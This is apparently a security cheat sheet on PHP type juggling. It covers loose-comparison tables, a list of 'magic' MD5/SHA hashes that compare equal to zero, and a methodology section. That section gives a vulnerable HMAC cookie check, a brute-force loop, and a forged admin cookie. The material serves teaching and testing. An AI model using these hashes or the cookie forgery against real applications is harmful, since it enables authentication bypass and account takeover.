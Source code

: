 # Type Juggling

> PHP is a loosely typed language, which means it tries to predict the programmer's intent and automatically converts variables to different types whenever it seems necessary. For example, a string containing only numbers can be treated as an integer or a float. However, this automatic conversion (or type juggling) can lead to unexpected results, especially when comparing variables using the '==' operator, which only checks for value equality (loose comparison), not type and value equality (strict comparison).

## Summary

* [Loose Comparison](#loose-comparison)
    * [True Statements](#true-statements)
    * [NULL Statements](#null-statements)
    * [Loose Comparison](#loose-comparison)
* [Magic Hashes](#magic-hashes)
* [Methodology](#methodology)
* [Labs](#labs)
* [References](#references)

## Loose Comparison

> PHP type juggling vulnerabilities arise when loose comparison (== or !=) is employed instead of strict comparison (=== or !==) in an area where the attacker can control one of the variables being compared. This vulnerability can result in the application returning an unintended answer to the true or false statement, and can lead to severe authorization and/or authentication bugs.

* **Loose** comparison: using `== or !=` : both variables have "the same value".
* **Strict** comparison: using `=== or !==` : both variables have "the same type and the same value".

### True Statements

| Statement                         | Output |
| --------------------------------- |:---------------:|
| `'0010e2'   == '1e3'`             | true |
| `'0xABCdef' == ' 0xABCdef'`       | true (PHP 5.0) / false (PHP 7.0) |
| `'0xABCdef' == '     0xABCdef'`   | true (PHP 5.0) / false (PHP 7.0) |
| `'0x01'     == 1`             | true (PHP 5.0) / false (PHP 7.0) |
| `'0x1234Ab' == '1193131'`         | true (PHP 5.0) / false (PHP 7.0) |
| `'123'  == 123`                   | true |
| `'123a' == 123`                   | true |
| `'abc'  == 0`                     | true |
| `'' == 0 == false == NULL`        | true |
| `'' == 0`                         | true |
| `0  == false`                    | true |
| `false == NULL`                   | true |
| `NULL == ''`                      | true |

> PHP8 won't try to cast string into numbers anymore, thanks to the Saner string to number comparisons RFC, meaning that collision with hashes starting with 0e and the likes are finally a thing of the past! The Consistent type errors for internal functions RFC will prevent things like `0 == strcmp($_GET['username'], $password)` bypasses, since strcmp won't return null and spit a warning any longer, but will throw a proper exception instead.

![LooseTypeComparison](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/Images/table_representing_behavior_of_PHP_with_loose_type_comparisons.png?raw=true)

Loose Type comparisons occurs in many languages:

* [MariaDB](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Mariadb)
* [MySQL](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Mysql)
* [NodeJS](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/NodeJS)
* [PHP](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/PHP)
* [Perl](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Perl)
* [Postgres](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Postgres)
* [Python](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Python)
* [SQLite](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/SQLite/2.6.0)

### NULL Statements

| Function | Statement                  | Output |
| -------- | -------------------------- |:---------------:|
| sha1     | `var_dump(sha1([]));`      | NULL |
| md5      | `var_dump(md5([]));`       | NULL |

## Magic Hashes

> Magic hashes arise due to a quirk in PHP's type juggling, when comparing string hashes to integers. If a string hash starts with "0e" followed by only numbers, PHP interprets this as scientific notation and the hash is treated as a float in comparison operations.

| Hash | "Magic" Number / String    | Magic Hash                                    | Found By / Description      |
| ---- | -------------------------- |:---------------------------------------------:| -------------:|
| MD4  | gH0nAdHk                   | 0e096229559581069251163783434175              | [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD4  | IiF+hTai                   | 00e90130237707355082822449868597              | [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD5  | 240610708                  | 0e462097431906509019562988736854              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | QNKCDZO                    | 0e830400451993494058024219903391              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e1137126905               | 0e291659922323405260514745084877              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e215962017                | 0e291242476940776845150308577824              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 129581926211651571912466741651878684928                | 06da5430449f8f6f23dfc1276f722738              | Raw: ?T0D??o#??'or'8.N=? |
| SHA1 | 10932435112                | 0e07766915004133176347055865026311692244      | Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| SHA-224 | 10885164793773          | 0e281250946775200129471613219196999537878926740638594636 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1138075224010833921) |
| SHA-256 | 34250003024812          | 0e46289032038065916139621039085883773413820991920706299695051332 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1148586399207178241) |
| SHA-256 | TyNOQHUS                | 0e66298694359207596086558843543959518835691168370379069085300385 | [@Chick3nman512](https://twitter.com/Chick3nman512/status/1150137800324526083) |

```php
<?php
var_dump(md5('240610708') == md5('QNKCDZO')); # bool(true)
var_dump(md5('aabg7XSs')  == md5('aabC9RqS'));
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
?>
```

## Methodology

The vulnerability in the following code lies in the use of a loose comparison (!=) to validate the $cookie['hmac'] against the calculated `$hash`.

```php
function validate_cookie($cookie,$key){
 $hash = hash_hmac('md5', $cookie['username'] . '|' . $cookie['expiration'], $key);
 if($cookie['hmac'] != $hash){ // loose comparison
  return false;
  
 }
 else{
  echo "Well done";
 }
}
```

In this case, if an attacker can control the $cookie['hmac'] value and set it to a string like "0", and somehow manipulate the hash_hmac function to return a hash that starts with "0e" followed only by numbers (which is interpreted as zero), the condition $cookie['hmac'] != $hash would evaluate to false, effectively bypassing the HMAC check.

We have control over 3 elements in the cookie:

* `$username` - username you are targeting, probably "admin"
* `$expiration` - a UNIX timestamp, must be in the future
* `$hmac` - the provided hash, "0"

The exploitation phase is the following:

* Prepare a malicious cookie: The attacker prepares a cookie with $username set to the user they wish to impersonate (for example, "admin"), `$expiration` set to a future UNIX timestamp, and $hmac set to "0".
* Brute force the `$expiration` value: The attacker then brute forces different `$expiration` values until the hash_hmac function generates a hash that starts with "0e" and is followed only by numbers. This is a computationally intensive process and might not be feasible depending on the system setup. However, if successful, this step would generate a "zero-like" hash.

 ```php
 // docker run -it --rm -v /tmp/test:/usr/src/myapp -w /usr/src/myapp php:8.3.0alpha1-cli-buster php exp.php
 for($i=1424869663; $i < 1835970773; $i++ ){
  $out = hash_hmac('md5', 'admin|'.$i, '');
  if(str_starts_with($out, '0e' )){
   if($out == 0){
    echo "$i - ".$out;
    break;
   }
  }
 }
 ?>
 ```

* Update the cookie data with the value from the bruteforce: `1539805986 - 0e772967136366835494939987377058`

 ```php
 $cookie = [
  'username' => 'admin',
  'expiration' => 1539805986,
  'hmac' => '0'
 ];
 ```

* In this case we assumed the key was a null string : `$key = '';`

## Labs

* [Root Me - PHP - Type Juggling](https://www.root-me.org/en/Challenges/Web-Server/PHP-type-juggling)
* [Root Me - PHP - Loose Comparison](https://www.root-me.org/en/Challenges/Web-Server/PHP-Loose-Comparison)

## References

* [(Super) Magic Hashes - myst404 (@myst404_) - October 7, 2019](https://offsec.almond.consulting/super-magic-hash.html)
* [Magic Hashes - Robert Hansen - May 11, 2015](http://web.archive.org/web/20160722013412/https://www.whitehatsec.com/blog/magic-hashes/)
* [Magic hashes – PHP hash "collisions" - Michal Špaček (@spaze) - May 6, 2015](https://github.com/spaze/hashes)
* [PHP Magic Tricks: Type Juggling - Chris Smith (@chrismsnz) - August 18, 2020](http://web.archive.org/web/20200818131633/https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)
* [Writing Exploits For Exotic Bug Classes: PHP Type Juggling - Tyler Borland (TurboBorland) - August 17, 2013](http://turbochaos.blogspot.com/2013/08/exploiting-exotic-bugs-php-type-juggling.html)
